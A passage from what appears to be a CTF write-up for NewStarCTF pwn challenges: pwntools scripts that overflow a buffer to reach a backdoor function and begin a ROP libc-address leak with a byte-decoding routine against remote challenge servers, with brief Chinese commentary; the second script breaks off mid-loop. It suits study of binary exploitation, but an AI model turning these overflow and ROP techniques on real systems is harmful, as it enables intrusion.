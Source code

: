```python
from pwn import *
context(arch='amd64', os='linux',log_level='debug')

#io = process('./pwn')
io = remote('101.200.139.65',36871)
elf = ELF('./pwn')
backdoor = elf.sym['backdoor']
backdoor_2 = 0x40137C
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

payload = b'12345678' * (32) + bytes(reversed(p64(backdoor_2)))
io.recv()
io.sendline(payload)
io.interactive()
```
### My_GBC!!!!!
不知道为什么用自带的libc打不通...最后同时泄露write和read然后用libc数据库才打通  
不过对于初出茅庐的我来说是第一次做到这种对内存编码的题，值得记录  
加密部分我是直接丢给gpt写的，最多自己微调一下  

```python
from pwn import *
from LibcSearcher import *

context(arch='amd64', os='linux',log_level='debug')

elf = ELF("../newstarctf/My_GBC!!!!!")
io = remote("8.147.132.32", 16222)
#io = process('../newstarctf/My_GBC!!!!!')
libc = ELF("../newstarctf/libc.so.6")

main = elf.sym['main']
write_plt = elf.plt['write']
write_got = elf.got['write']
read_got = elf.got['read']
pop_rdi = 0x4013b3
pop_rsi_pop_r15 = 0x4013b1
ret = 0x40101a
#找不到pop_rdx但是write可以暂时不管

def right_rotate3(byte):
    # 右旋转3位
    return ((byte >> 3) & 0xFF) | ((byte << 5) & 0xFF)
def decrypt(encrypted_data, xor_byte):
    decrypted_data = bytearray(len(encrypted_data))

    for i in range(len(encrypted_data)):
        # 先右旋转3位
        rotated_byte = right_rotate3(encrypted_data[i])

        # 异或操作
        decrypted_data[i] = rotated_byte ^ xor_byte

    return bytes(decrypted_data)

key = 0x5A

print(pidof(io))
addr = b''
for i in range(0,8):
    io.recvuntil(b"thing")
```